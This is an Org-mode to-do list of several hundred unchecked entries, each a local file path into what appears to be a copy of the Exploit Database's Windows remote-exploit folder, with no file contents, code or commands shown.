**** TODO file:/root/work/exploitdb/winremote/21004.txt
**** TODO file:/root/work/exploitdb/winremote/21009.c
**** TODO file:/root/work/exploitdb/winremote/21016.c
**** TODO file:/root/work/exploitdb/winremote/21030.txt
**** TODO file:/root/work/exploitdb/winremote/21034.rb
**** TODO file:/root/work/exploitdb/winremote/21035.txt
**** TODO file:/root/work/exploitdb/winremote/21036.pl
**** TODO file:/root/work/exploitdb/winremote/21039.pl
**** TODO file:/root/work/exploitdb/winremote/21040.txt
**** TODO file:/root/work/exploitdb/winremote/21057.txt
**** TODO file:/root/work/exploitdb/winremote/21109.c
**** TODO file:/root/work/exploitdb/winremote/21110.pl
**** TODO file:/root/work/exploitdb/winremote/21113.txt
**** TODO file:/root/work/exploitdb/winremote/21118.txt
**** TODO file:/root/work/exploitdb/winremote/21121.pl
**** TODO file:/root/work/exploitdb/winremote/21127.txt
**** TODO file:/root/work/exploitdb/winremote/21142.pl
**** TODO file:/root/work/exploitdb/winremote/21144.txt
**** TODO file:/root/work/exploitdb/winremote/21153.c
**** TODO file:/root/work/exploitdb/winremote/21156.txt
**** TODO file:/root/work/exploitdb/winremote/21164.txt
**** TODO file:/root/work/exploitdb/winremote/21169.txt
**** TODO file:/root/work/exploitdb/winremote/21178.html
**** TODO file:/root/work/exploitdb/winremote/21188.c
**** TODO file:/root/work/exploitdb/winremote/21189.c
**** TODO file:/root/work/exploitdb/winremote/21195.txt
**** TODO file:/root/work/exploitdb/winremote/21196.txt
**** TODO file:/root/work/exploitdb/winremote/21198.html
**** TODO file:/root/work/exploitdb/winremote/21199.txt
**** TODO file:/root/work/exploitdb/winremote/21201.pl
**** TODO file:/root/work/exploitdb/winremote/21203.txt
**** TODO file:/root/work/exploitdb/winremote/21204.txt
**** TODO file:/root/work/exploitdb/winremote/21207.c
**** TODO file:/root/work/exploitdb/winremote/21211.txt
**** TODO file:/root/work/exploitdb/winremote/21214.c
**** TODO file:/root/work/exploitdb/winremote/21225.c
**** TODO file:/root/work/exploitdb/winremote/21228.c
**** TODO file:/root/work/exploitdb/winremote/21235.pl
**** TODO file:/root/work/exploitdb/winremote/21260.txt
**** TODO file:/root/work/exploitdb/winremote/21274.c
**** TODO file:/root/work/exploitdb/winremote/21286.c
**** TODO file:/root/work/exploitdb/winremote/21291.pl
**** TODO file:/root/work/exploitdb/winremote/21292.pl
**** TODO file:/root/work/exploitdb/winremote/21294.c
**** TODO file:/root/work/exploitdb/winremote/21298.c
**** TODO file:/root/work/exploitdb/winremote/21303.txt
**** TODO file:/root/work/exploitdb/winremote/21305.c
**** TODO file:/root/work/exploitdb/winremote/21306.c
**** TODO file:/root/work/exploitdb/winremote/21307.txt
**** TODO file:/root/work/exploitdb/winremote/21311.txt
**** TODO file:/root/work/exploitdb/winremote/21313.txt
**** TODO file:/root/work/exploitdb/winremote/21350.pl
**** TODO file:/root/work/exploitdb/winremote/21361.txt
**** TODO file:/root/work/exploitdb/winremote/21367.txt
**** TODO file:/root/work/exploitdb/winremote/21368.c
**** TODO file:/root/work/exploitdb/winremote/21369.c
**** TODO file:/root/work/exploitdb/winremote/21370.c
**** TODO file:/root/work/exploitdb/winremote/21371.c
**** TODO file:/root/work/exploitdb/winremote/21372.txt
**** TODO file:/root/work/exploitdb/winremote/21376.html
**** TODO file:/root/work/exploitdb/winremote/21385.txt
**** TODO file:/root/work/exploitdb/winremote/21386.html
**** TODO file:/root/work/exploitdb/winremote/2140.pm
**** TODO file:/root/work/exploitdb/winremote/21410.pl
**** TODO file:/root/work/exploitdb/winremote/21438.txt
**** TODO file:/root/work/exploitdb/winremote/21439.txt
**** TODO file:/root/work/exploitdb/winremote/21446.txt
**** TODO file:/root/work/exploitdb/winremote/21451.txt
**** TODO file:/root/work/exploitdb/winremote/21452.txt
**** TODO file:/root/work/exploitdb/winremote/21466.c
**** TODO file:/root/work/exploitdb/winremote/21467.c
**** TODO file:/root/work/exploitdb/winremote/21468.pl
**** TODO file:/root/work/exploitdb/winremote/21469.txt
**** TODO file:/root/work/exploitdb/winremote/21470.txt
**** TODO file:/root/work/exploitdb/winremote/21475.txt
**** TODO file:/root/work/exploitdb/winremote/21483.html
**** TODO file:/root/work/exploitdb/winremote/21484.c
**** TODO file:/root/work/exploitdb/winremote/21485.txt
**** TODO file:/root/work/exploitdb/winremote/2162.pm
**** TODO file:/root/work/exploitdb/winremote/2164.pm
**** TODO file:/root/work/exploitdb/winremote/2223.c
**** TODO file:/root/work/exploitdb/winremote/2233.c
**** TODO file:/root/work/exploitdb/winremote/2234.py
**** TODO file:/root/work/exploitdb/winremote/2258.py
**** TODO file:/root/work/exploitdb/winremote/2265.c
**** TODO file:/root/work/exploitdb/winremote/2276.pm
**** TODO file:/root/work/exploitdb/winremote/2277.c
**** TODO file:/root/work/exploitdb/winremote/2283.c
**** TODO file:/root/work/exploitdb/winremote/2320.txt
**** TODO file:/root/work/exploitdb/winremote/2328.php
**** TODO file:/root/work/exploitdb/winremote/232.c
**** TODO file:/root/work/exploitdb/winremote/2345.pl
**** TODO file:/root/work/exploitdb/winremote/2355.pm
**** TODO file:/root/work/exploitdb/winremote/2358.c
**** TODO file:/root/work/exploitdb/winremote/23.c
**** TODO file:/root/work/exploitdb/winremote/2401.c
**** TODO file:/root/work/exploitdb/winremote/2403.c
**** TODO file:/root/work/exploitdb/winremote/2408.pl
**** TODO file:/root/work/exploitdb/winremote/2425.html
**** TODO file:/root/work/exploitdb/winremote/2426.pl
**** TODO file:/root/work/exploitdb/winremote/2440.rb
**** TODO file:/root/work/exploitdb/winremote/2445.c
**** TODO file:/root/work/exploitdb/winremote/2448.html
**** TODO file:/root/work/exploitdb/winremote/2458.pl
**** TODO file:/root/work/exploitdb/winremote/2460.c
**** TODO file:/root/work/exploitdb/winremote/2467.pm
**** TODO file:/root/work/exploitdb/winremote/2482.pl
**** TODO file:/root/work/exploitdb/winremote/2530.py
**** TODO file:/root/work/exploitdb/winremote/2601.c
**** TODO file:/root/work/exploitdb/winremote/2637.c
**** TODO file:/root/work/exploitdb/winremote/2649.c
**** TODO file:/root/work/exploitdb/winremote/2651.c
**** TODO file:/root/work/exploitdb/winremote/2657.html
**** TODO file:/root/work/exploitdb/winremote/266.c
**** TODO file:/root/work/exploitdb/winremote/2671.pl
**** TODO file:/root/work/exploitdb/winremote/2680.pm
**** TODO file:/root/work/exploitdb/winremote/2689.c
**** TODO file:/root/work/exploitdb/winremote/268.c
**** TODO file:/root/work/exploitdb/winremote/2690.c
**** TODO file:/root/work/exploitdb/winremote/2699.c
**** TODO file:/root/work/exploitdb/winremote/2729.pm
**** TODO file:/root/work/exploitdb/winremote/2743.html
**** TODO file:/root/work/exploitdb/winremote/2749.html
**** TODO file:/root/work/exploitdb/winremote/2753.c
**** TODO file:/root/work/exploitdb/winremote/275.c
**** TODO file:/root/work/exploitdb/winremote/2770.rb
**** TODO file:/root/work/exploitdb/winremote/2771.rb
**** TODO file:/root/work/exploitdb/winremote/2785.c
**** TODO file:/root/work/exploitdb/winremote/2789.cpp
**** TODO file:/root/work/exploitdb/winremote/2800.cpp
**** TODO file:/root/work/exploitdb/winremote/2809.py
**** TODO file:/root/work/exploitdb/winremote/2821.c
**** TODO file:/root/work/exploitdb/winremote/2865.rb
**** TODO file:/root/work/exploitdb/winremote/2866.html
**** TODO file:/root/work/exploitdb/winremote/2870.rb
**** TODO file:/root/work/exploitdb/winremote/2887.pl
**** TODO file:/root/work/exploitdb/winremote/28.c
**** TODO file:/root/work/exploitdb/winremote/293.c
**** TODO file:/root/work/exploitdb/winremote/295.c
**** TODO file:/root/work/exploitdb/winremote/2974.pl
**** TODO file:/root/work/exploitdb/winremote/297.c
**** TODO file:/root/work/exploitdb/winremote/2.c
**** TODO file:/root/work/exploitdb/winremote/3022.txt
**** TODO file:/root/work/exploitdb/winremote/3037.php
**** TODO file:/root/work/exploitdb/winremote/3055.html
**** TODO file:/root/work/exploitdb/winremote/3058.html
**** TODO file:/root/work/exploitdb/winremote/3063.pl
**** TODO file:/root/work/exploitdb/winremote/3067.txt
**** TODO file:/root/work/exploitdb/winremote/3072.py
**** TODO file:/root/work/exploitdb/winremote/3084.txt
**** TODO file:/root/work/exploitdb/winremote/3086.py
**** TODO file:/root/work/exploitdb/winremote/3092.pm
**** TODO file:/root/work/exploitdb/winremote/30.pl
**** TODO file:/root/work/exploitdb/winremote/3107.pm
**** TODO file:/root/work/exploitdb/winremote/310.txt
**** TODO file:/root/work/exploitdb/winremote/3132.pl
**** TODO file:/root/work/exploitdb/winremote/3133.pl
**** TODO file:/root/work/exploitdb/winremote/3137.html
**** TODO file:/root/work/exploitdb/winremote/313.txt
**** TODO file:/root/work/exploitdb/winremote/3140.pl
**** TODO file:/root/work/exploitdb/winremote/3148.pl
**** TODO file:/root/work/exploitdb/winremote/3158.c
**** TODO file:/root/work/exploitdb/winremote/315.txt
**** TODO file:/root/work/exploitdb/winremote/3168.java
**** TODO file:/root/work/exploitdb/winremote/316.txt
**** TODO file:/root/work/exploitdb/winremote/3170.pm
**** TODO file:/root/work/exploitdb/winremote/3211.py
**** TODO file:/root/work/exploitdb/winremote/3218.pl
**** TODO file:/root/work/exploitdb/winremote/3244.py
**** TODO file:/root/work/exploitdb/winremote/3264.pl
**** TODO file:/root/work/exploitdb/winremote/3265.pm
**** TODO file:/root/work/exploitdb/winremote/3274.txt
**** TODO file:/root/work/exploitdb/winremote/3279.html
**** TODO file:/root/work/exploitdb/winremote/3291.pl
**** TODO file:/root/work/exploitdb/winremote/3296.c
**** TODO file:/root/work/exploitdb/winremote/3302.sh
**** TODO file:/root/work/exploitdb/winremote/3319.pl
**** TODO file:/root/work/exploitdb/winremote/3320.pl
**** TODO file:/root/work/exploitdb/winremote/3335.pm
**** TODO file:/root/work/exploitdb/winremote/3340.html
**** TODO file:/root/work/exploitdb/winremote/3364.pl
**** TODO file:/root/work/exploitdb/winremote/3380.txt
**** TODO file:/root/work/exploitdb/winremote/3381.pl
**** TODO file:/root/work/exploitdb/winremote/3388.pl
**** TODO file:/root/work/exploitdb/winremote/3391.py
**** TODO file:/root/work/exploitdb/winremote/3395.c
**** TODO file:/root/work/exploitdb/winremote/3397.pl
**** TODO file:/root/work/exploitdb/winremote/3420.html
**** TODO file:/root/work/exploitdb/winremote/3422.pl
**** TODO file:/root/work/exploitdb/winremote/3462.cpp
**** TODO file:/root/work/exploitdb/winremote/3463.cpp
**** TODO file:/root/work/exploitdb/winremote/3474.py
**** TODO file:/root/work/exploitdb/winremote/3482.pl
**** TODO file:/root/work/exploitdb/winremote/3495.txt
**** TODO file:/root/work/exploitdb/winremote/3531.py
**** TODO file:/root/work/exploitdb/winremote/3537.py
**** TODO file:/root/work/exploitdb/winremote/3540.py
**** TODO file:/root/work/exploitdb/winremote/3541.pl
**** TODO file:/root/work/exploitdb/winremote/3544.c
**** TODO file:/root/work/exploitdb/winremote/3561.pl
**** TODO file:/root/work/exploitdb/winremote/3570.c
**** TODO file:/root/work/exploitdb/winremote/3575.cpp
**** TODO file:/root/work/exploitdb/winremote/3577.html
**** TODO file:/root/work/exploitdb/winremote/3579.py
**** TODO file:/root/work/exploitdb/winremote/3589.pm
**** TODO file:/root/work/exploitdb/winremote/3604.py
**** TODO file:/root/work/exploitdb/winremote/3610.html
**** TODO file:/root/work/exploitdb/winremote/3616.py
**** TODO file:/root/work/exploitdb/winremote/361.txt
**** TODO file:/root/work/exploitdb/winremote/3627.c
**** TODO file:/root/work/exploitdb/winremote/3634.txt
**** TODO file:/root/work/exploitdb/winremote/3635.txt
**** TODO file:/root/work/exploitdb/winremote/3636.txt
**** TODO file:/root/work/exploitdb/winremote/3650.c
**** TODO file:/root/work/exploitdb/winremote/3651.txt
**** TODO file:/root/work/exploitdb/winremote/3661.pl
**** TODO file:/root/work/exploitdb/winremote/3662.rb
**** TODO file:/root/work/exploitdb/winremote/3675.rb
**** TODO file:/root/work/exploitdb/winremote/3680.sh
**** TODO file:/root/work/exploitdb/winremote/36.c
**** TODO file:/root/work/exploitdb/winremote/3728.c
**** TODO file:/root/work/exploitdb/winremote/3737.py
**** TODO file:/root/work/exploitdb/winremote/3738.php
**** TODO file:/root/work/exploitdb/winremote/3740.c
**** TODO file:/root/work/exploitdb/winremote/3746.txt
**** TODO file:/root/work/exploitdb/winremote/378.pl
**** TODO file:/root/work/exploitdb/winremote/37.pl
**** TODO file:/root/work/exploitdb/winremote/3804.txt
**** TODO file:/root/work/exploitdb/winremote/3808.html
**** TODO file:/root/work/exploitdb/winremote/3810.html
**** TODO file:/root/work/exploitdb/winremote/3822.c
**** TODO file:/root/work/exploitdb/winremote/3844.html
**** TODO file:/root/work/exploitdb/winremote/3872.html
**** TODO file:/root/work/exploitdb/winremote/3877.html
**** TODO file:/root/work/exploitdb/winremote/3880.html
**** TODO file:/root/work/exploitdb/winremote/3881.html
**** TODO file:/root/work/exploitdb/winremote/3882.html
**** TODO file:/root/work/exploitdb/winremote/3892.html
**** TODO file:/root/work/exploitdb/winremote/3893.c
**** TODO file:/root/work/exploitdb/winremote/3899.html
**** TODO file:/root/work/exploitdb/winremote/3913.c
**** TODO file:/root/work/exploitdb/winremote/3916.php
**** TODO file:/root/work/exploitdb/winremote/3925.py
**** TODO file:/root/work/exploitdb/winremote/3927.html
**** TODO file:/root/work/exploitdb/winremote/3934.py
**** TODO file:/root/work/exploitdb/winremote/3938.html
**** TODO file:/root/work/exploitdb/winremote/3950.html
**** TODO file:/root/work/exploitdb/winremote/3951.html
**** TODO file:/root/work/exploitdb/winremote/3952.html
**** TODO file:/root/work/exploitdb/winremote/3954.py
**** TODO file:/root/work/exploitdb/winremote/3961.html
**** TODO file:/root/work/exploitdb/winremote/3966.php
**** TODO file:/root/work/exploitdb/winremote/3967.html
**** TODO file:/root/work/exploitdb/winremote/3968.html
**** TODO file:/root/work/exploitdb/winremote/3982.html
**** TODO file:/root/work/exploitdb/winremote/3984.html
**** TODO file:/root/work/exploitdb/winremote/3993.html
**** TODO file:/root/work/exploitdb/winremote/3996.c
**** TODO file:/root/work/exploitdb/winremote/4008.html
**** TODO file:/root/work/exploitdb/winremote/4010.html
**** TODO file:/root/work/exploitdb/winremote/4014.py
**** TODO file:/root/work/exploitdb/winremote/4015.html
**** TODO file:/root/work/exploitdb/winremote/4016.sh
**** TODO file:/root/work/exploitdb/winremote/4021.html
**** TODO file:/root/work/exploitdb/winremote/4023.html
**** TODO file:/root/work/exploitdb/winremote/4027.py
**** TODO file:/root/work/exploitdb/winremote/4042.html
**** TODO file:/root/work/exploitdb/winremote/4043.html
**** TODO file:/root/work/exploitdb/winremote/4045.py
**** TODO file:/root/work/exploitdb/winremote/4049.html
**** TODO file:/root/work/exploitdb/winremote/4050.html
**** TODO file:/root/work/exploitdb/winremote/4052.c
**** TODO file:/root/work/exploitdb/winremote/4053.c
**** TODO file:/root/work/exploitdb/winremote/4060.html
**** TODO file:/root/work/exploitdb/winremote/4061.html
**** TODO file:/root/work/exploitdb/winremote/4065.html
**** TODO file:/root/work/exploitdb/winremote/4066.html
**** TODO file:/root/work/exploitdb/winremote/4094.html
**** TODO file:/root/work/exploitdb/winremote/4101.html
**** TODO file:/root/work/exploitdb/winremote/4109.html
**** TODO file:/root/work/exploitdb/winremote/4110.html
**** TODO file:/root/work/exploitdb/winremote/4119.html
**** TODO file:/root/work/exploitdb/winremote/4123.html
**** TODO file:/root/work/exploitdb/winremote/4143.html
**** TODO file:/root/work/exploitdb/winremote/4146.cpp
**** TODO file:/root/work/exploitdb/winremote/4152.py
**** TODO file:/root/work/exploitdb/winremote/4155.html
**** TODO file:/root/work/exploitdb/winremote/4157.cpp
**** TODO file:/root/work/exploitdb/winremote/4158.html
**** TODO file:/root/work/exploitdb/winremote/4160.html
**** TODO file:/root/work/exploitdb/winremote/4170.html
**** TODO file:/root/work/exploitdb/winremote/4176.html
**** TODO file:/root/work/exploitdb/winremote/4177.html
**** TODO file:/root/work/exploitdb/winremote/4188.txt
**** TODO file:/root/work/exploitdb/winremote/418.c
**** TODO file:/root/work/exploitdb/winremote/4190.html
**** TODO file:/root/work/exploitdb/winremote/4200.html
**** TODO file:/root/work/exploitdb/winremote/4207.py
**** TODO file:/root/work/exploitdb/winremote/4208.html
**** TODO file:/root/work/exploitdb/winremote/4214.html
**** TODO file:/root/work/exploitdb/winremote/4217.html
**** TODO file:/root/work/exploitdb/winremote/421.c
**** TODO file:/root/work/exploitdb/winremote/4222.c
**** TODO file:/root/work/exploitdb/winremote/4223.pl
**** TODO file:/root/work/exploitdb/winremote/4226.html
**** TODO file:/root/work/exploitdb/winremote/4228.pl
**** TODO file:/root/work/exploitdb/winremote/4230.html
**** TODO file:/root/work/exploitdb/winremote/4234.html
**** TODO file:/root/work/exploitdb/winremote/4237.html
**** TODO file:/root/work/exploitdb/winremote/4240.html
**** TODO file:/root/work/exploitdb/winremote/4244.html
**** TODO file:/root/work/exploitdb/winremote/4245.html
**** TODO file:/root/work/exploitdb/winremote/4247.c
**** TODO file:/root/work/exploitdb/winremote/4250.html
**** TODO file:/root/work/exploitdb/winremote/4255.html
**** TODO file:/root/work/exploitdb/winremote/4259.txt
**** TODO file:/root/work/exploitdb/winremote/426.c
**** TODO file:/root/work/exploitdb/winremote/4279.html
**** TODO file:/root/work/exploitdb/winremote/4280.pl
**** TODO file:/root/work/exploitdb/winremote/4283.pl
**** TODO file:/root/work/exploitdb/winremote/4287.py
**** TODO file:/root/work/exploitdb/winremote/4290.html
**** TODO file:/root/work/exploitdb/winremote/4292.cpp
**** TODO file:/root/work/exploitdb/winremote/4299.html
**** TODO file:/root/work/exploitdb/winremote/42.c
**** TODO file:/root/work/exploitdb/winremote/4301.cpp
**** TODO file:/root/work/exploitdb/winremote/4316.cpp
**** TODO file:/root/work/exploitdb/winremote/431.c
**** TODO file:/root/work/exploitdb/winremote/4322.html
**** TODO file:/root/work/exploitdb/winremote/4323.html
**** TODO file:/root/work/exploitdb/winremote/4324.html
**** TODO file:/root/work/exploitdb/winremote/4328.html
**** TODO file:/root/work/exploitdb/winremote/4334.txt
**** TODO file:/root/work/exploitdb/winremote/4348.c
**** TODO file:/root/work/exploitdb/winremote/4351.html
**** TODO file:/root/work/exploitdb/winremote/4357.html
**** TODO file:/root/work/exploitdb/winremote/435.c
**** TODO file:/root/work/exploitdb/winremote/4360.rb
**** TODO file:/root/work/exploitdb/winremote/4366.html
**** TODO file:/root/work/exploitdb/winremote/4367.c
**** TODO file:/root/work/exploitdb/winremote/4372.html
**** TODO file:/root/work/exploitdb/winremote/4388.html
**** TODO file:/root/work/exploitdb/winremote/4389.html
**** TODO file:/root/work/exploitdb/winremote/4393.html
**** TODO file:/root/work/exploitdb/winremote/4394.html
**** TODO file:/root/work/exploitdb/winremote/4398.html
**** TODO file:/root/work/exploitdb/winremote/439.c
**** TODO file:/root/work/exploitdb/winremote/4420.html
**** TODO file:/root/work/exploitdb/winremote/4424.html
**** TODO file:/root/work/exploitdb/winremote/4427.html
**** TODO file:/root/work/exploitdb/winremote/4428.html
**** TODO file:/root/work/exploitdb/winremote/4429.pl
**** TODO file:/root/work/exploitdb/winremote/4438.cpp
**** TODO file:/root/work/exploitdb/winremote/4445.html
**** TODO file:/root/work/exploitdb/winremote/4450.py
**** TODO file:/root/work/exploitdb/winremote/4452.html
**** TODO file:/root/work/exploitdb/winremote/4453.html
**** TODO file:/root/work/exploitdb/winremote/4455.pl
**** TODO file:/root/work/exploitdb/winremote/4468.html
**** TODO file:/root/work/exploitdb/winremote/4484.pl
**** TODO file:/root/work/exploitdb/winremote/4487.html
**** TODO file:/root/work/exploitdb/winremote/4488.html
**** TODO file:/root/work/exploitdb/winremote/4506.html
**** TODO file:/root/work/exploitdb/winremote/4526.html
**** TODO file:/root/work/exploitdb/winremote/4566.rb
**** TODO file:/root/work/exploitdb/winremote/4573.py
**** TODO file:/root/work/exploitdb/winremote/4574.pl
**** TODO file:/root/work/exploitdb/winremote/4579.html
**** TODO file:/root/work/exploitdb/winremote/4594.html
**** TODO file:/root/work/exploitdb/winremote/4598.html
**** TODO file:/root/work/exploitdb/winremote/45.c
**** TODO file:/root/work/exploitdb/winremote/4616.pl
**** TODO file:/root/work/exploitdb/winremote/4651.cpp
**** TODO file:/root/work/exploitdb/winremote/4657.py
**** TODO file:/root/work/exploitdb/winremote/4663.html
**** TODO file:/root/work/exploitdb/winremote/4664.txt
**** TODO file:/root/work/exploitdb/winremote/4699.txt
**** TODO file:/root/work/exploitdb/winremote/4700.txt
**** TODO file:/root/work/exploitdb/winremote/4713.txt
**** TODO file:/root/work/exploitdb/winremote/4715.txt
**** TODO file:/root/work/exploitdb/winremote/4720.html
**** TODO file:/root/work/exploitdb/winremote/4724.py
**** TODO file:/root/work/exploitdb/winremote/472.c
**** TODO file:/root/work/exploitdb/winremote/473.c
**** TODO file:/root/work/exploitdb/winremote/4745.cpp
**** TODO file:/root/work/exploitdb/winremote/4746.html
**** TODO file:/root/work/exploitdb/winremote/4747.vbs
**** TODO file:/root/work/exploitdb/winremote/4754.pl
**** TODO file:/root/work/exploitdb/winremote/475.sh
**** TODO file:/root/work/exploitdb/winremote/4760.txt
**** TODO file:/root/work/exploitdb/winremote/4784.pl
**** TODO file:/root/work/exploitdb/winremote/478.c
**** TODO file:/root/work/exploitdb/winremote/4806.html
**** TODO file:/root/work/exploitdb/winremote/480.c
**** TODO file:/root/work/exploitdb/winremote/4818.html
**** TODO file:/root/work/exploitdb/winremote/4819.html
**** TODO file:/root/work/exploitdb/winremote/4820.html
**** TODO file:/root/work/exploitdb/winremote/4825.html
**** TODO file:/root/work/exploitdb/winremote/4866.py
**** TODO file:/root/work/exploitdb/winremote/4868.html
**** TODO file:/root/work/exploitdb/winremote/4869.html
**** TODO file:/root/work/exploitdb/winremote/4873.html
**** TODO file:/root/work/exploitdb/winremote/4874.html
**** TODO file:/root/work/exploitdb/winremote/4894.html
**** TODO file:/root/work/exploitdb/winremote/48.c
**** TODO file:/root/work/exploitdb/winremote/4903.html
**** TODO file:/root/work/exploitdb/winremote/4906.txt
**** TODO file:/root/work/exploitdb/winremote/4909.html
**** TODO file:/root/work/exploitdb/winremote/4913.html
**** TODO file:/root/work/exploitdb/winremote/4918.html
**** TODO file:/root/work/exploitdb/winremote/4923.txt
**** TODO file:/root/work/exploitdb/winremote/4932.html
**** TODO file:/root/work/exploitdb/winremote/4934.c
**** TODO file:/root/work/exploitdb/winremote/4946.html
**** TODO file:/root/work/exploitdb/winremote/4948.txt
**** TODO file:/root/work/exploitdb/winremote/4949.txt
**** TODO file:/root/work/exploitdb/winremote/4959.html
**** TODO file:/root/work/exploitdb/winremote/4967.html
**** TODO file:/root/work/exploitdb/winremote/4974.html
**** TODO file:/root/work/exploitdb/winremote/4979.html
**** TODO file:/root/work/exploitdb/winremote/4981.html
**** TODO file:/root/work/exploitdb/winremote/4982.html
**** TODO file:/root/work/exploitdb/winremote/4986.html
**** TODO file:/root/work/exploitdb/winremote/4987.html
**** TODO file:/root/work/exploitdb/winremote/4999.htm
**** TODO file:/root/work/exploitdb/winremote/5005.html
**** TODO file:/root/work/exploitdb/winremote/5025.html
**** TODO file:/root/work/exploitdb/winremote/5028.html
**** TODO file:/root/work/exploitdb/winremote/5045.html
**** TODO file:/root/work/exploitdb/winremote/5046.php
**** TODO file:/root/work/exploitdb/winremote/5048.html
**** TODO file:/root/work/exploitdb/winremote/5049.html
**** TODO file:/root/work/exploitdb/winremote/5051.html
**** TODO file:/root/work/exploitdb/winremote/5052.html
**** TODO file:/root/work/exploitdb/winremote/5069.pl
**** TODO file:/root/work/exploitdb/winremote/5078.htm
**** TODO file:/root/work/exploitdb/winremote/5079.c
**** TODO file:/root/work/exploitdb/winremote/5087.html
**** TODO file:/root/work/exploitdb/winremote/50.pl
**** TODO file:/root/work/exploitdb/winremote/5100.html
**** TODO file:/root/work/exploitdb/winremote/5102.html
**** TODO file:/root/work/exploitdb/winremote/5106.html
**** TODO file:/root/work/exploitdb/winremote/5111.html
**** TODO file:/root/work/exploitdb/winremote/5153.asp
**** TODO file:/root/work/exploitdb/winremote/5188.html
**** TODO file:/root/work/exploitdb/winremote/5190.html
**** TODO file:/root/work/exploitdb/winremote/5193.html
**** TODO file:/root/work/exploitdb/winremote/51.c
**** TODO file:/root/work/exploitdb/winremote/5205.html
**** TODO file:/root/work/exploitdb/winremote/5212.py
**** TODO file:/root/work/exploitdb/winremote/5213.txt
**** TODO file:/root/work/exploitdb/winremote/5228.txt
**** TODO file:/root/work/exploitdb/winremote/5230.txt
**** TODO file:/root/work/exploitdb/winremote/5238.py
**** TODO file:/root/work/exploitdb/winremote/5248.py
**** TODO file:/root/work/exploitdb/winremote/5249.pl
**** TODO file:/root/work/exploitdb/winremote/5259.py
**** TODO file:/root/work/exploitdb/winremote/5264.html
**** TODO file:/root/work/exploitdb/winremote/5269.txt
**** TODO file:/root/work/exploitdb/winremote/5314.py
**** TODO file:/root/work/exploitdb/winremote/5315.py
**** TODO file:/root/work/exploitdb/winremote/5330.c
**** TODO file:/root/work/exploitdb/winremote/5332.html
**** TODO file:/root/work/exploitdb/winremote/5338.html
**** TODO file:/root/work/exploitdb/winremote/5342.py
**** TODO file:/root/work/exploitdb/winremote/5395.html
**** TODO file:/root/work/exploitdb/winremote/5397.txt
**** TODO file:/root/work/exploitdb/winremote/5398.html
**** TODO file:/root/work/exploitdb/winremote/5416.html
**** TODO file:/root/work/exploitdb/winremote/5445.cpp
**** TODO file:/root/work/exploitdb/winremote/5451.py
**** TODO file:/root/work/exploitdb/winremote/5461.rb
**** TODO file:/root/work/exploitdb/winremote/5489.html
**** TODO file:/root/work/exploitdb/winremote/5496.html
**** TODO file:/root/work/exploitdb/winremote/54.c
**** TODO file:/root/work/exploitdb/winremote/5511.html
**** TODO file:/root/work/exploitdb/winremote/5519.c
**** TODO file:/root/work/exploitdb/winremote/5530.html
**** TODO file:/root/work/exploitdb/winremote/5536.php
**** TODO file:/root/work/exploitdb/winremote/5563.pl
**** TODO file:/root/work/exploitdb/winremote/556.c
**** TODO file:/root/work/exploitdb/winremote/5612.html
**** TODO file:/root/work/exploitdb/winremote/5619.html
**** TODO file:/root/work/exploitdb/winremote/566.pl
**** TODO file:/root/work/exploitdb/winremote/5681.html
**** TODO file:/root/work/exploitdb/winremote/568.c
**** TODO file:/root/work/exploitdb/winremote/5694.cpp
**** TODO file:/root/work/exploitdb/winremote/5695.cpp
**** TODO file:/root/work/exploitdb/winremote/56.c
**** TODO file:/root/work/exploitdb/winremote/572.pl
**** TODO file:/root/work/exploitdb/winremote/5732.html
**** TODO file:/root/work/exploitdb/winremote/5738.rb
**** TODO file:/root/work/exploitdb/winremote/573.c
**** TODO file:/root/work/exploitdb/winremote/5741.html
**** TODO file:/root/work/exploitdb/winremote/5746.html
**** TODO file:/root/work/exploitdb/winremote/5747.html
**** TODO file:/root/work/exploitdb/winremote/5750.html
**** TODO file:/root/work/exploitdb/winremote/5751.pl
**** TODO file:/root/work/exploitdb/winremote/5777.html
**** TODO file:/root/work/exploitdb/winremote/5778.html
**** TODO file:/root/work/exploitdb/winremote/577.c
**** TODO file:/root/work/exploitdb/winremote/5793.html
**** TODO file:/root/work/exploitdb/winremote/5795.html
**** TODO file:/root/work/exploitdb/winremote/5827.cpp
**** TODO file:/root/work/exploitdb/winremote/582.c
**** TODO file:/root/work/exploitdb/winremote/583.pl
**** TODO file:/root/work/exploitdb/winremote/584.c
**** TODO file:/root/work/exploitdb/winremote/588.py
**** TODO file:/root/work/exploitdb/winremote/589.html
**** TODO file:/root/work/exploitdb/winremote/590.c
**** TODO file:/root/work/exploitdb/winremote/592.py
**** TODO file:/root/work/exploitdb/winremote/598.py
**** TODO file:/root/work/exploitdb/winremote/5.c
**** TODO file:/root/work/exploitdb/winremote/6004.txt
**** TODO file:/root/work/exploitdb/winremote/6012.php
**** TODO file:/root/work/exploitdb/winremote/6089.pl
**** TODO file:/root/work/exploitdb/winremote/6100.py
**** TODO file:/root/work/exploitdb/winremote/6116.pl
**** TODO file:/root/work/exploitdb/winremote/6118.pl
**** TODO file:/root/work/exploitdb/winremote/6121.c
**** TODO file:/root/work/exploitdb/winremote/6124.c
**** TODO file:/root/work/exploitdb/winremote/612.html
**** TODO file:/root/work/exploitdb/winremote/6151.txt
**** TODO file:/root/work/exploitdb/winremote/6152.html
**** TODO file:/root/work/exploitdb/winremote/616.c
**** TODO file:/root/work/exploitdb/winremote/6175.html
**** TODO file:/root/work/exploitdb/winremote/618.c
**** TODO file:/root/work/exploitdb/winremote/6195.c
**** TODO file:/root/work/exploitdb/winremote/619.c
**** TODO file:/root/work/exploitdb/winremote/6217.pl
**** TODO file:/root/work/exploitdb/winremote/621.c
**** TODO file:/root/work/exploitdb/winremote/6220.html
**** TODO file:/root/work/exploitdb/winremote/6227.c
**** TODO file:/root/work/exploitdb/winremote/6238.c
**** TODO file:/root/work/exploitdb/winremote/623.c
**** TODO file:/root/work/exploitdb/winremote/6248.pl
**** TODO file:/root/work/exploitdb/winremote/6256.pl
**** TODO file:/root/work/exploitdb/winremote/6278.txt
**** TODO file:/root/work/exploitdb/winremote/627.pl
**** TODO file:/root/work/exploitdb/winremote/6302.pl
**** TODO file:/root/work/exploitdb/winremote/6317.html
**** TODO file:/root/work/exploitdb/winremote/6318.html
**** TODO file:/root/work/exploitdb/winremote/6323.html
**** TODO file:/root/work/exploitdb/winremote/6324.html
**** TODO file:/root/work/exploitdb/winremote/6334.html
**** TODO file:/root/work/exploitdb/winremote/6355.txt
**** TODO file:/root/work/exploitdb/winremote/6367.txt
**** TODO file:/root/work/exploitdb/winremote/636.c
**** TODO file:/root/work/exploitdb/winremote/637.c
